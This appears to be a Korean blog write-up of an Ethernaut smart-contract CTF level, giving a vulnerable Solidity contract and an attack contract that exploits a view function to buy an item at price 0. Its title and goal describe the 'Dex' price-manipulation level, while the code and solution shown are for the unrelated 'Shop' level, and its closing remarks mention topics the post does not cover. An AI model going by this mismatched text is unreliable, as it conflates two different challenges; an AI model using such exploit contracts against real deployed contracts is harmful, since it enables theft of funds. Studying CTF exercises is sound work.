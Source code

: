 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 22) Dex
date: '2022-02-07 13:43:00'
author: 한성원
tags: ethernaut Dex vulnerability 22
categories: 취약점분석
---
```



# 👋 1. Dex
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Dex Contract 해킹 후 토큰 중 하나를 모두 소진(0으로 만들기)하는 것이다. 
수준의 목표는 아래 DEX 기본계약서를 해킹하여 가격 조작으로 자금을 훔치는 것입니다.

토큰1의 10 토큰과 토큰2의 10 토큰으로 시작합니다. DEX 계약은 토큰당 100개씩으로 시작합니다.

계약에서 토큰 2개 중 최소 1개를 모두 소진하고, 계약이 자산의 '나쁜' 가격을 신고하도록 허용한다면 이 수준에서 성공할 수 있을 것이다.
- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
// Buyer의 Interface
interface Buyer {
    // price는 external view 함수이며 uint256을 return한다.
    function price() external view returns (uint);
}

contract Shop {

    // price가 100으로 설정됨    
    uint public price = 100;
    // 물건이 팔렸는지 확인하는 bool 값, initial value: false
    bool public isSold;

    // 물건을 사는 함수
    function buy() public {
        // _buyer를 msg.sender로 설정
        Buyer _buyer = Buyer(msg.sender);

        // 만약 _buyer.price가 100 이상이고, isSold가 false이면 진행
        if (_buyer.price() >= price && !isSold) {
            // 물건을 샀다!
            isSold = true;
            // price를 _buyer.price()로 바꾼다. 
            price = _buyer.price();
        }
    }
}
```
- - -

## 풀이
### 들어가기 전
먼저 힌트를 보자
1. 구매자가 사용할 상점
2. View 기능의 제한 사항 이해 (<- 중요한 부분)

우리는 view의 기능을 사용해 문제를 풀 수 있다.
<br/>

### 풀이
view를 어떻게 사용해야 Shop contract를 해킹 할 수 있을까?
다음 AttackContract를 확인해보자

```solidity
contract attackShop {

    Shop shop;

    // Shop contract를 shop으로 지정한다.
    constructor(address _shop) public {
        shop = Shop(_shop);
    }

    // shop의 buy()을 실행시키다.
    function attack() public {
        shop.buy();
    }

    // 만약 isSold가 true면 0을 return하고 false면 100을 return한다
    function price() public view returns(uint) {
        return shop.isSold() ? 0:100;
    }
}

```
<br/>

이 문제는 [Eelevator 문제](https://holyhansss.github.io/ethernaut/11_elevator_ethernaut/11_elevator_ethernaut/)와 비슷한 문제이다.

위 코드를 가지고 공격 시나리오를 생각해보자
1. attackShop contract를 Shop의 address를 인자로하여 배포한다.
2. attackShop.attack()을 실행시킨다.
3. Shop.buy()에서 if문을 통과하고 isSold가 true로 바뀐다.
4. attackShop.price()는 isSold가 true기 때문에 Shop.price()를 0으로 바꾼다.

<br/>

![isSold](./isSold.png)

위와 같은 시나리오로 isSold가 true가 되었고 price가 0이 된 것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
역시 ethernaut를 풀면서 solidity에 대해 다시 복습하고 있는것 같다. `send vs transfer vs call`에 대해서도 다시 찾아보며 공부할 수 있었고, assert, revert와 require의 차이점을 공부할 수 있었던 문제였던 것 같다. 

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```